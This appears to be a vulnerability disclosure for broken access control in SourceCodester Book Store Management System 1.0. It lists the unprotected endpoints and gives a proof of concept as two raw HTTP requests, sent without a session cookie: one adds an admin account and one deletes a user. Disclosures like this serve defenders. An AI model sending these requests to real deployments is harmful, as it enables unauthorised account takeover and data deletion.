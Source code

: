 # Broken Access Control

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows a remote attacker to access all URLs without logging in and use all actions like account management page.

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s):

- /bsms_ci/index.php/category/*
- /bsms_ci/index.php/book/*
- /bsms_ci/index.php/transaction/*
- /bsms_ci/index.php/history/*
- /bsms_ci/index.php/user/*

Proof of Concept: Access all URLs without logging in and use all actions like an admin like edit, detele, add new account.

1. Send a request Add new account without cookie

Burpsuite Request:

```txt
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

Image:

![image](images/add_user.png)

2. Send a request Delete account without cookie

Burpsuite Request:

```txt
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Image:

![image](images/delete_user.png)

Discoverer(s)/Credits: CMC TSSG

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)